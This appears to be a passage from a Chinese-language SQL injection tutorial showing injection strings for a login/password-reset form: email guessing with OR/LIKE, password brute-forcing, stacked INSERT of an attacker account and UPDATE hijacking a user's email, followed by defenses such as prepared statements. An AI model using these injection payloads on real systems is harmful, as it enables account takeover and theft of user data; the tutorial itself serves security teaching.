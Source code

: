         +   但是，上面只确认了`tabname`是否是有效名称，不一定是我们使用的名称，下面的语句有所帮助：
        
            ```sql
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' AND members.email IS NULL; --'; 
            ```
    +   猜测用户的邮件地址：`$EMAIL = x' OR full_name LIKE '%Bob%`
        +   如果 SQL 语句执行成功，通常你会看到这样的消息：`We sent your password to <…>`，其中`<…>`是邮件地址，它的`fill_name`与`%Bob%`匹配（`%`是通配符）。
        
            ```sql
            SELECT email, passwd, login_id, full_name   
            FROM members  
            WHERE email = 'x' OR full_name LIKE '%Bob%'; 
            ```
    +   爆破密码（在我们了解有效邮件地址之后）
        
        ```sql
        SELECT email, passwd, login_id, full_name   
        FROM members  
        WHERE email = 'bob@example.com' AND passwd = 'hello123';
        ```
        
    +   如果数据库不是只读的，我们可以尝试下面的东西来添加新用户：
        +   末尾的`-- `（注意空格，或者使用`#`）是 SQL 注释的开始。这是个有效的方式来去掉最后由应用提供的单引号，并且不会担心它们的匹配。
        +   有一些挑战：
            +   Web 表单可能没有像你提供足够的空间来键入整个字符串。
            +   Web 应用的用户可能没有`members`表的`INSERT`权限。
            +   应用可能不能正常表现，因为我们没有提供其它字段的值。
            +   有效的`member`可能不仅仅需要`members`表的一行记录，也需要其它表的关联信息（例如`accessrights`），所以只向一个表添加可能不足够。
        
        ```sql
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';   
        INSERT INTO members ('email','passwd','login_id','full_name')    
        VALUES ('xyz@hacker.net','hello','xyz','xyz Hacker');--'; 
        ```
    +   修改现有用户的邮件地址
        +   如果成功了，攻击者就能访问正常的`I lost my password`链接，键入更新后的邮件地址，并在邮件中收到 Bob 的密码。
        
        ```sql
        SELECT email, passwd, login_id, full_name   
        FROM members  WHERE email = 'x';       
        UPDATE members       
        SET email = 'xyz@hacker.net'       
        WHERE email = 'bob@example.com'; 
        ```
    
    +   如何防止 SQL 攻击？
        +   过滤输入
        +   配置错误报告：上面的攻击利用了由服务器返回的错误信息。通过不告诉用户 SQL 查询中实际的错误信息，可以使攻击者更加困难。例如，你可以只说`something is wrong`。
        +   使用预定义参数，所以用户的输入仅仅被看做数据，引号、反斜杠和 SQL 注释记号不会产生影响，因为它们也仅仅被看做数据，并且不会解释为 SQL。看看下面的 Java 代码：
        
        ```java
        // Insecure version 
        Statement s = connection.createStatement(); 
        ResultSet rs = s.executeQuery("SELECT email FROM member WHERE name = " + formField);   
        // Secure version 
        PreparedStatement ps = 
        connection.prepareStatement( "SELECT email FROM member WHERE name = ?"); 
        ps.setString(1, formField); 
        ResultSet rs = ps.executeQuery(); 
        ```
